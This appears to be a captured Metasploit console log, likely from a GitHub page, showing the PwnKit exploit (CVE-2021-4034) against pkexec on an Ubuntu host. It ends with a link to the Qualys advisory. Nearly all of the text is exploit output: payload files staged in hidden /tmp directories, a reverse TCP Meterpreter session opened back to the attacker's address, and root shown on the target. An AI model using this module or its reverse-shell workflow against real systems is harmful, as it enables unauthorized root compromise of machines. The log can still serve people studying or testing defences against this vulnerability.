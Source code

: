 ```
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Found pkexec version 0.105
[*] Determined host os is Ubuntu
[*] Polkit package version = 0.105-26ubuntu1
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.pacfbr
[*] /tmp/.pacfbr created
[!] Verify cleanup of /tmp/.pacfbr
[*] Running python3 /tmp/.pacfbr/.jxkiwyj /usr/bin/pkexec /tmp/.pacfbr/khmtpqj/khmtpqj.so khmtpqj mbbidsfl
[*] GLib: Cannot convert message: Could not open converter from “UTF-8” to “mbbidsfl”
The value for the SHELL variable was not found the /etc/shells file

This incident has been reported.
[+] The target is vulnerable.
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.lukbdme
[*] /tmp/.lukbdme created
[*] Writing '/tmp/.lukbdme/rnaxcz/rnaxcz.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.lukbdme
[*] Running python3 /tmp/.lukbdme/.iwksanwva /usr/bin/pkexec /tmp/.lukbdme/rnaxcz/rnaxcz.so rnaxcz jnagcbkqds
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 10.5.132.107
[+] Deleted /tmp/.lukbdme/rnaxcz/rnaxcz.so
[+] Deleted /tmp/.lukbdme/.iwksanwva
[!] Attempting to delete working directory /tmp/.lukbdme
[!] Attempting to delete working directory /tmp/.lukbdme
[*] Meterpreter session 3 opened (10.5.135.101:4444 -> 10.5.132.107:54758 ) at 2022-03-01 14:40:18 -0600

meterpreter > sysinfo
Computer     : 10.5.132.107
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/
meterpreter > 


```

**Reference:** https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
